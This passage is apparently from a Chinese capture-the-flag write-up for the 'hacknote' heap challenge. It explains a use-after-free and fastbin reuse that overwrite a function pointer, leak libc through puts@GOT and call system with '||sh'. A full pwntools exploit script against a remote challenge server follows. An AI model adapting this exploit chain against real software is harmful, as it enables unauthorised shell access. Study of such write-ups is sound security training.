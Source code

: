 ```c
    }
  }
}
```

ptr为一个数组，存放指向8字节大小的内存空间。前四字节为puts的函数地址，后四字节为note申请的内存空间地址。

思路就是leak一个libc地址，然后控制那8字节空间，func地址为system，note中为‘/bin/sh’地址。从而get shell。

free后的指针没有被销毁，首先申请两个size>0x8的chunk。然后都free掉，fastbin中就有了四个chunk。其中控制堆块是在同一个bin中的，size都是0x8。这时申请新的size为0x8的note，我们就会获得这两个堆块。这个块的content就是note0的控制堆块。修改后四字节为puts_got,leak出libc的地址。然后free掉这个块，再申请回来，把地址改为system，后面的内容改为‘||sh’ or ‘;sh’。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
#context.arch="amd64"
local=0
binary='./hacknote'

#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('220.249.52.133',49663)
elf = ELF(binary,checksec=False)
libc=ELF('libc_32.so.6',checksec=False)

def create(size,content):
	p.sendlineafter("Your choice :",'1')
	p.sendlineafter("Note size :",str(size))
	p.sendlineafter("Content :",str(content))

def dele(index):
	p.sendlineafter("Your choice :",'2')
	p.sendlineafter("Index :",str(index))

def show(index):
	p.sendlineafter("Your choice :",'3')
	p.sendlineafter("Index :",str(index))

create(0x10,'a'*0x10)
create(0x10,'b'*0x10)
dele(0)
dele(1)
create(0x8,p32(0x804862B)+p32(elf.got['puts']))

#gdb.attach(p)
p.sendlineafter("Your choice :",'3')
p.recvuntil('Index :')
p.sendline('0')
puts_addr=u32(p.recv(4))
print hex(puts_addr)

libcbase=puts_addr-libc.symbols['puts']
system=libcbase+libc.symbols['system']

dele(2)
create(0x8,p32(system)+'||sh')
show(0)
```